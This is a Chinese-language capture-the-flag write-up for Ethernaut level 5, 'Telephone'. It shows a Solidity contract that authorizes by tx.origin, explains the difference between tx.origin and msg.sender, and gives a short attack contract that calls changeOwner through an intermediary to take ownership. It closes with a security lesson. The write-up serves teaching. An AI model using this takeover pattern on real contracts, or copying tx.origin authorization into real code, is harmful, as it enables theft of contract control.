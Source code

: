 ```yaml
---
title: Ethernaut 闯关笔记 第5关 Telephone
date: 2023-12-07 12:20:52
tags:
---
```


原始代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

目标：成为合约 owner 。

# 攻击思路

本关考察 `tx.origin` 和 `msg.sender` 的区别。

* `tx.origin` ：本次交易的最早发起人，只可能是一个钱包
* `msg.sender` ：本次合约调用的直接行为主体，可能是钱包也可能是另一个合约

因此，只需要另外部署一个合约，让这个合约调用 `changeOwner()` 即可符合条件。

# 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}

contract TelephoneHack{
    address constant TARGET = 0x6e4F3a2689069C568E51db94E76D0A84f00aa20f;
    address constant MY = 0x15AfABaA426334636008Bc15805760716E8b5c5E;

    function run() public {
        Telephone telephone = Telephone(TARGET);
        telephone.changeOwner(MY);
    }
}
```

# 安全启示

务必区分清楚 `tx.origin` 和 `msg.sender` 。

如果使用不当，可能导致 `owner` 指向一个合约地址。如果指向的合约没有实现该有的功能，原始合约的控制权就会丢失。